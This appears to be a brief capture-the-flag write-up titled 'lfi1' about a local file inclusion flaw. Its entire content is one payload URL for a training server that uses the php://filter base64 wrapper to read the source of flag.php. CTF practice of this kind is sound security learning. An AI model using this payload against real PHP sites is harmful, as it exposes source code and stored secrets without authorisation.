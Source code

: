 # lfi1
**本地文件包含漏洞**

http://train2024.hitctf.cn:26900/?file=php://filter/read=convert.base64-encode/resource=flag.php
